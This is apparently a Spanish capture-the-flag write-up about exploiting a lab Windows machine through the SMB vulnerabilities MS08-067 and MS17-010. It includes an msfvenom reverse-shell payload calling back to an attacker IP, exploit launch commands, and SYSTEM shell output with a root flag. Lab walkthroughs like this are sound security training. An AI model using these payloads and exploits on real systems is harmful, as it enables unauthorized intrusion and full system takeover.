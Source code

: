 Lanzamos el exploit una vez puesto a la escucha el netcat.
```
python3 exploits/cve/MS08-067.py 10.10.10.4 6 445
```
Una vez lanzado conseguimos shell como SYSTEM.


### CVE-2017-0144 / MS17-010
Antes de nada me puse a investigar de como funcionaba a bajo nivel esta vulnerabilidad, un post muy bueno y muy completo sobre esta es el siguiente:
https://zerosum0x0.blogspot.com/2017/04/doublepulsar-initial-smb-backdoor-ring.html
Una vez que nos informamos de como funciona esta vulnerabilidad a bajo nivel procedemos a buscar exploits compatibles y estables, encontramos el siguiente:
https://github.com/helviojunior/MS17-010/blob/master/send_and_execute.py
Antes de lanzar me lo lei para ver como funcionaba y al ver que no habia nada extraño procedi a la generacion del payload:

```bash=
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.24 LPORT=31337 EXITFUNC=thread -f exe -a x86 --platform windows -o ms17-010.exe
```

Lo siguiente que vamos a hacer es lanzar el exploit:
```bash=
python send_and_execute.py 10.10.10.4 ms17-010.exe
```

Ponemos a la escucha el netcat y una vez lanzado ya tenemos shell como SYSTEM.
```
C:\Documents and Settings\Administrator\Desktop>type root.txt
type root.txt
993442d2...ae9e695d5713
```